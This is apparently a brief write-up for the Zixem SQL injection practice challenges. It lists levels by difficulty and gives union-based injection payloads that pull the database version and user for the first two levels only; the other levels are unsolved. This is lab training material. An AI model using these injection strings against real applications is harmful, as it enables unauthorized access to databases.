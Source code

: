 ## Zixem SQLi

[[Zixem SQLi](http://www.zixem.altervista.org/SQLi/)]

> #### RULES
>
> Use only **UNION BASED!**
>
> Your mission is to select only the **version** & **user** and to **take screenshot** as proof.

## Write Up

#### SQLi challenges

| [Level 1](http://www.zixem.altervista.org/SQLi/level1.php?id=1) | Super Easy |
| ------- | ---------- |

 `?id=-9999 union select version(),user(),3; --`

| [Level 2](http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4) | Easy |
| ------- | ---------- |

 `?showprofile=-9999' union select user(),version(),3,4 -- -`

| [Level 3](http://www.zixem.altervista.org/SQLi/level3.php?item=3) | Medium |
| ------- | ---------- |

| [Level 4](http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7) | Normal |
| ------- | ---------- |

| [Level 7](http://www.zixem.altervista.org/SQLi/level7.php?id=1) | Medium |
| ------- | ---------- |

| [Level 8](http://www.zixem.altervista.org/SQLi/lvl8.php?id=1) | Hard |
| ------- | ---------- |

| [Level 9](http://www.zixem.altervista.org/SQLi/lvl9.php?id=1) | Medium |
| ------- | ---------- |

| [Level 10](http://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D) | Pro |
| ------- | ---------- |

#### BF challenges

| [Level 5](http://www.zixem.altervista.org/SQLi/login_lvl5.php) | Hard |
| ------- | ---------- |

#### SQLi-Blind challenges

| [Level 6](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10) | Expererinced |
| ------- | ---------- |
